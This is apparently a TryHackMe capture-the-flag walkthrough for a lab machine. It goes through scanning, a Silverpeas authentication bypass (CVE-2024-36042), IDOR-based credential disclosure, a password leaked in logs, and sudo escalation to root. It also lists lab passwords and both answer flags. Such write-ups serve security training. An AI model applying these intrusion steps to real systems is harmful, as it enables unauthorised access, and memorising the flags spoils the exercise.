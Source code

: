 
[[TryHackMe]] Room

**Date:** 15/01/25  
**Target IP:** 10.10.240.9

---
### **Initial Scanning**

**Nmap Results:**

- 22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http       nginx 1.18.0 (Ubuntu)
- 8080/tcp open  http-proxy

**Nikto Scan:**

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**

- Navigated to the website hosted on port 80.
- Contact page provides username for project manager on Silverpeas : scr1ptkiddy.

**DirSearch** :

```bash
Target: http://10.10.240.9/

[17:31:03] Starting: 
[17:31:18] 301 -  178B  - /assets  ->  http://10.10.240.9/assets/
[17:31:18] 403 -  564B  - /assets/
[17:31:28] 403 -  564B  - /images/
[17:31:28] 301 -  178B  - /images  ->  http://10.10.240.9/images/
[17:31:31] 200 -   17KB - /LICENSE.txt
[17:31:40] 200 -  771B  - /README.txt
```

```bash
Target: http://10.10.240.9:8080/

[17:31:58] Starting: 
[17:32:17] 302 -    0B  - /console/j_security_check  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/base/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/login/LoginForm.jsp  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/payments/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/  ->  /noredirect.html
[17:32:44] 302 -    0B  - /website  ->  http://10.10.240.9:8080/website/
```

Found /silverpeas endpoint on **Port 8080** which has a default Silverpeas login page.

---
### **Exploitation**

Gained access to the Silverpeas dashboard utilizing an Authentication Bypass vulnerability found on GitHub  [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d).

Once the dashboard loads, we are immediately prompted wit a notification message from "Manager". Opening the message navigates us to the URL : `http://10.10.240.9:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Here, the ID column on inspection is found to have an IDOR vulnerability. Further, changing he ID value to 6, we obtain the following credentials within the message.

```bash
Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

SSH'd into tim@10.10.240.9 to obtain the user.txt flag : 
**THM{c4ca4238a0b923820dcc509a6f75849b}**

---
### **Post-Exploitation**

Running linpeas.sh provides the following : 

```bash
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

We observe that tim and tyler share the *adm* grp. We can thus check the /var/log files for potential data leaks. 

```bash
tim@silver-platter:/var/log$ cat * | grep 'tyler'
```

One of the results is the following : 

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Using this password, we can SSH into the tyler user.

```bash
tyler@silver-platter:/tmp$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We observe that tyler has elevated privileges. we can thus run `sudo bash` to gain root access and obtain the root flag : 
**THM{098f6bcd4621d373cade4e832627b4f6}**

### **Summary**

- Project manager Silverpeas username : scr1ptkiddy
- tim user SSH password : `cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`
- User Flag ( /home/tim/user.txt ) : **THM{c4ca4238a0b923820dcc509a6f75849b}**
- tyler user SSH password : `_Zd_zx7N823/`
- Root Flag ( /root/root.txt ) : **THM{098f6bcd4621d373cade4e832627b4f6}**

